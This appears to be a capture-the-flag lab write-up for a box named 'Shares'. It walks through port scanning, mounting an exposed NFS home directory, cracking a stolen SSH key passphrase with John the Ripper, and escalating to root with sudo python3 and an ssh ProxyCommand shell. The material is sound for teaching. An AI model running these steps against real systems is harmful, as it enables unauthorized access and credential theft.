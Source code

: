 # Shares

## Information Gathering
Shares<br>
172.31.1.7<br>

## Enumeration
Start off with your nmap scan:
```bash
# Nmap 7.92 scan initiated Sun Feb 20 18:31:06 2022 as: nmap -p- -A -oN nmap/all_ports.nmap 172.31.1.7
Nmap scan report for 172.31.1.7
Host is up (0.049s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.3
80/tcp    open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Pet Shop
|_http-server-header: Apache/2.4.29 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33845/tcp6  mountd
|   100005  1,2,3      36497/tcp   mountd
|   100005  1,2,3      36644/udp   mountd
|   100005  1,2,3      54201/udp6  mountd
|   100021  1,3,4      35149/tcp   nlockmgr
|   100021  1,3,4      40206/udp6  nlockmgr
|   100021  1,3,4      43809/tcp6  nlockmgr
|   100021  1,3,4      45094/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
27853/tcp open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
|_  256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
35149/tcp open  nlockmgr 1-4 (RPC #100021)
36497/tcp open  mountd   1-3 (RPC #100005)
38135/tcp open  mountd   1-3 (RPC #100005)
51705/tcp open  mountd   1-3 (RPC #100005)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 18:31:38 2022 -- 1 IP address (1 host up) scanned in 31.72 seconds

```
There is a webserver so I run Gobuster against it:
```bash
/contact.html         (Status: 200) [Size: 5433]
/images               (Status: 301) [Size: 309] [--> http://172.31.1.7/images/]
/index.html           (Status: 200) [Size: 6338]
/blog.html            (Status: 200) [Size: 7654]
/about.html           (Status: 200) [Size: 8795]
/css                  (Status: 301) [Size: 306] [--> http://172.31.1.7/css/]
/fonts                (Status: 301) [Size: 308] [--> http://172.31.1.7/fonts/]
/server-status        (Status: 403) [Size: 275]

```
Nothing too interesting...<br>
I check out the nfs service and see if I can mount any directories to my local machine.
```bash
showmount -e 172.31.1.7
Export list for 172.31.1.7:
/home/amir *.*.*.*
```
## Exploitation
Because anyone can mount /home/amir to their local machine, I go ahead and mount it:
```bash
sudo mount -o rw 172.31.1.7:/home/amir /mnt/nfs_amir
```
I'm able to successfully mount this directory.<br>
Next I take a look around and see that amir has id_rsa ssh keys. Copying them and trying to ssh in using them shows that a passphrase is required.
```bash
chmod 600 id_rsa
ssh -i id_rsa amir@172.31.1.7 -p 27853
Enter passphrase for key 'id_rsa':
```
After a few guesses, nothing comes up. Fortunatly, JohnTheRipper comes with a tool to crack ssh passphrases. I use ssh2john.py to create a format that John can recognize, and start cracking
```bash
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
I get back <b>"hello6"</b> as the passpharse. This gives me foothold onto the box.

## Privilege Escalation
Start with some basic enumeration:
```bash
sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```
We can execute two applications as amy with no password. Using pkexec prompts you with a password. Using python3 allows you to pivot over to amy.
```bash
sudo -u amy python3 -c 'import os; os.system("/bin/bash")'
amy@shares:~$ id
uid=1001(amy) gid=1001(amy) groups=1001(amy)
```
I do the same thing for amy...
```bash
sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```
I can run ssh as sudo without a password. Lovely. The privilege escaltion for this is show in <a href="https://gtfobins.github.io/">GTFOBins</a>
```bash
sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@shares:~# id
uid=0(root) gid=0(root) groups=0(root)
```
This gives you root.